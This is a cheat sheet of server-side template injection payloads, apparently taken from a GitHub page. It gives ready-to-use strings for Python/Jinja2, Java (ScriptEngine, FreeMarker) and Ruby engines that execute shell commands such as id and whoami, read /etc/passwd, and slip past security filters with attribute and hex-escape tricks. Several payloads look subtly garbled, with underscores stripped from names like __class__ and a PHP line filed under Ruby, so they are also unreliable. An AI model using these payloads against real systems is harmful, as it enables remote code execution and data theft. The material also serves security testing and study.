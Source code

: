 ### Python-Specific Exploits
*Payloads targeting Python-based template engines*

```bash
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.class.mro[2].subclasses() }}
{{''.class.base.subclasses()}}
{{''.class.base.subclasses()[227]('cat /etc/passwd', shell=True, stdout=-1).communicate()}}
{{ ''.class.mro[2].subclasses()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].class.mro[2].subclasses()[40]('/etc/passwd').read() }}
{{config.class.init.globals['os'].popen('ls').read()}}
{% for x in ().class.base.subclasses() %}{% if "warning" in x.name %}{{x()._module.builtins['import']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
```

### Java Template Exploits
*Payloads specifically for Java-based template engines*

```bash
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("new java.lang.String('xxx')")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("var x=new java.lang.ProcessBuilder; x.command(\"whoami\"); x.start()")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("var x=new java.lang.ProcessBuilder; x.command(\"netstat\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("var x=new java.lang.ProcessBuilder; x.command(\"uname\",\"-a\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())")}}
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
```

### Filter Bypass Techniques
*Advanced payloads for bypassing security filters*

```bash
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["","class",""]|join)}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

### Ruby Template Exploits

```bash
<%= File.open('/etc/passwd').read %>
{php}echo id;{/php}
```
